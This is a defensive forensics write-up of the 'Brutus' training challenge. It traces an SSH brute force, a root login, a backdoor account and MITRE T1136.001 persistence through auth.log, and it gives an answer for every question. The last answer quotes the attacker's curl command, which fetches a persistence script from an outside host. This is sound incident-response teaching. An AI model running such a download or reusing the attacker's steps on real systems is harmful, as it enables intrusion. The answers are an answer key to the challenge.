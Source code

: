 # **Brutus Writeup**

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

This is a relatively easy one to solve we are given a auth file and a wtmp file. This is what we will use to investigate and analysis

**Tools:**
- Text Editor

**Learned:**
- Log analysis of authentication file

### **Question 1**
Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

As it says in the question... open up that auth log to idenify the IP address. Since it is a brute force I am going to look for consecutive attemps to login to a specific account. This would be the best attempt in identifying the attacker. I found in the log of the TA trying different accounts such as admin, root and other accounts to log in. I want to note how to read an authentication file output. The first IP is the server they tried to connect to and if you keep reading to the right you will see the account they tried logging into and it then logs the TA IP address out
	
![image](https://github.com/user-attachments/assets/09481aea-8646-4928-b31c-a27da62399ec)

**Answer:** 65.2.161.68
### **Question 2**
The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

In the auth log, I am going to search for passwords that were accepted for accounts that have elevated permissions as this will indicate successful logins and I will ensure the source IP is the TA. I found a log where the TA logged in for the first time over an uncommon port 53814 with the root account over SSH protocol.

![image](https://github.com/user-attachments/assets/1ae69d6b-6177-42fb-996c-1ab5812395fd)

**Answer:** root
### **Question 3**
Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Looking at the successful login you can see the timestamp.

![image](https://github.com/user-attachments/assets/c33196a6-5841-4392-8263-6bb721c1a493)


**Answer:** 2024-03-06 06:32:45
### **Question 4**
SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Follow the logs shortly after the successful login of the root account you can see in the logs of ID of the new session

![image](https://github.com/user-attachments/assets/33ac11da-4ea0-4b9d-a4c3-26521784d867)


**Answer:** 37
### **Question 5**
The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Continue to follow the logs after the session ID you can identify the new user account added. They did it through the shell.

![image](https://github.com/user-attachments/assets/5ab3ac21-785f-46d8-8c16-1fb4c12fe2bb)

**Answer:** cyberjunkie
### **Question 6**
What is the MITRE ATT&CK sub-technique ID used for persistence?

Following this on MITRE ATT&CK we can identify what they used for persistance which is creating a local account: https://attack.mitre.org/techniques/T1136/001/

**Answer:** T1136.001
### **Question 7**
How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

This is an easy one! Look at the timestamp of when the user logged in using that session ID. The session ID is a great way to track specific accounts login/logouts.  Reading the logs I found when the session was closed for the 'root' account.

![image](https://github.com/user-attachments/assets/40aa87f6-cfdf-4cf0-a161-6b8b3b1762a3)

**Answer:** 279
### **Question 8**
The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Continue to follow the logs you will see a log of when the creds for 'cyberjunkie' were acceptd and a new session was opened with an ID of '49'. Continue following those you will see a cur command of them getting a linper.sh file from github
	
![image](https://github.com/user-attachments/assets/70dadc5a-4da5-41fb-b819-4a05fe9daad2)

**Answer:**/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

